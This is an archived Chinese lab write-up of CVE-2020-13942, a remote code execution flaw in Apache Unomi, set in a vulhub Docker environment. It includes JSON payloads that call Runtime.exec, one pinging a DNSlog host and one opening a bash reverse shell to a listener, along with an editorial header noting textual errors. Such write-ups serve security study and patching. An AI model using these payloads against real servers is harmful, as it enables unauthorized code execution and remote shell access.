# 漏洞技术 - CVE-2020-13942

> 编号角色校订（2026-10-04）：按归档技术正文区分主讨论编号与背景引用，更新 `primary_identifiers` / `referenced_identifiers` 及旧字段角色。旧编号原值、状态与正文保持原样，变更前字段逐字保存在 `previous_*`；后文旧的角色待核说明应按当前字段阅读。这里的角色判读不等于官方分配核验或漏洞复现。

<!-- vulwiki-editorial-rebuild:system-misc -->
## 条目范围与校订

- 本文对象：Apache Unomi CVE-2020-13942
- 文献类型：技术文章（细分类待核）
- 版本、权限及部署边界：<1.5.2范围与前序<1.5.1关联清楚，ONGl应OGNL；缺是否无认证、服务配置/出网/Java版本条件
- 核验状态：仅重建文本校订；未执行文中代码、PoC 或扫描，未把截图或转载声明记为本站复现

### 具体结论与待核项

以下为原归档的逐项勘误与证据缺口；可由文本确定的问题已在下文订正，仍缺来源的事实保持待核。

1. frontmatter11975为前序漏洞，本文主13942补丁绕过，应分主/引用
2. <1.5.2范围与前序<1.5.1关联清楚，ONGl应OGNL
3. JSON被表格竖线包裹且反弹shell内引号转义损坏
4. 没给实际POST URI/Content-Type，指从首页改POST不足复現，关键请求全在图
5. 缺是否无认证、服务配置/出网/Java版本条件
6. DNS/反弹是攻击步骤，与仅探测免责声明相矛盾
7. 官方仅下载总页无精确安全公告，清巨型setext和广告

### 操作风险

原文技术操作的实际副作用未复现核验；按其请求/代码评估状态变更、凭据暴露和业务影响

技术请求、代码与实验方法按原文保留；其中的破坏性动作仅限授权、可恢复的隔离环境。缺失代码、参数或版本事实不猜补。

### 来源追溯

- 原文标注出处：<https://mp.weixin.qq.com/s/YUt247L69OiqHDSHcT0mUA>

### 归档技术正文

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/YUt247L69OiqHDSHcT0mUA)


本文由 “网络安全检测与防护技术国家地方联合工程研究中心深圳分中心——东塔网络安全学院” 总结归纳

**0x00 简介**
===========

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验，比如 GDPR 和 “不跟踪” 偏好设置。其最初于 Jahia 开发，2015 年 10 月提交给了 Apache 孵化器。
=======================================================================================================================================================

Apache Unomi 具有隐私管理、用户 / 事件 / 目标跟踪、报告、访客资料管理、细分、角色、A/B 测试等功能，它可以作为：
===================================================================

Ø Web CMS 个性化服务

Ø 原生移动应用的分析服务

Ø 具有分段功能的集中配置文件管理系统

Ø 授权管理中心


**0x01 漏洞概述**

在 Apache Unomi 1.5.1 版本之前，攻击者可以通过精心构造的 MVEL 或 ONGl 表达式来发送恶意请求，使得 Unomi 服务器执行任意代码，漏洞对应编号为 CVE-2020-11975，而 CVE-2020-13942 漏洞是对 CVE-2020-11975 漏洞的补丁绕过，攻击者绕过补丁检测的黑名单，发送恶意请求，在服务器执行任意代码。

****0x02 影响版本**** 

Apache Unomi < 1.5.2

****0x03 环境搭建**** 

1、本次环境搭建使用 vulhub 中的 docker 环境搭建，下载地址

https://github.com/vulhub/vulhub

2、然后使用 vulhub 中 unomi 目录下 CVE-2020-13942 漏洞为本次漏洞复现环境

```
cd vulhub/unomi/CVE-2020-13942/
```

 

3、使用以下命令启动漏洞环境

```
docker-compose up -d
```

 

4、看到下方显示绿色字体的 done 表明启动成功，在浏览器访问 http://your-ip:8181 出现以下界面表示成功

 

****0x04 漏洞复现**** 

1、打开靶场首页，使用 burp 进行抓包，发送到 Repeater 模块构造数据包

 

2、将 GET 包改为 POST，删除多余的字段，保留 Host、User-Agent 和 Content-Length 字段，然后添加以下数据，在 dnslog 添加成自己的地址，然后发送

| 

{

    "filters": [

        {

            "id": "boom",

            "filters": [

                {

                    "condition": {

                         "parameterValues": {

                            "":"script::Runtime r = Runtime.getRuntime(); r.exec('ping DNSlog');"

                        },

                        "type": "profilePropertyCondition"

                    }

                }

            ]

        }

    ],

    "sessionId": "boom"

}

 |

  

 



3、在 dnslog 网站上刷新查看是否有数据，可以看到有数据

 

4、利用此漏洞反弹 shell，将 bash 反弹 shell 的命令进行编码，编码网址为：http://www.jackson-t.ca/runtime-exec-payloads.html

 

5、将编码后的 shell 添加到以下代码中的 shell 编码处，kali 设置监听，然后发送。

| 

{

    "filters": [

        {

            "id": "boom",

            "filters": [

                {

                    "condition": {

                         "parameterValues": {

                            "":"script::Runtime r = Runtime.getRuntime(); r.exec(\"shell 编码 \");"

                        },

                        "type": "profilePropertyCondition"

                    }

                }

            ]

        }

    ],

    "sessionId": "boom"

}

 |

  
   

6、在 kali 上查看 shell 成功返回。



****0x05 修复建议**** 

1、尽可能避免将用户数据放入表达式解释器中。

2、目前厂商已发布最新版本，请受影响用户及时下载并更新至最新版本。

官方链接如下：

https://unomi.apache.org/download.html

免责申明：   

本项目仅进行信息搜集，漏洞探测工作，无漏洞利用、攻击性行为，发文初衷为仅为方便安全人员对授权项目完成测试工作和学习交流使用。

请使用者遵守当地相关法律，勿用于非授权测试，勿用于非授权测试，勿用于非授权测试（重要的事情说三遍），如作他用所承受的法律责任一概与东塔网络安全学院无关！

东塔网络安全学院在各大平台均上线了各项活动和学习内容，快快登录以下各大平台学习起来吧~  

微博、腾讯课堂、知乎、今日头条、抖音：

东塔网络安全学院

哔哩哔哩：东塔网络安全

了解更多活动和咨询欢迎微信添加：dongtakefu

  

  


**- 免费获取学习资料**

**电子书籍、试听课程 -**

  

  


点击蓝字

分享我们

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
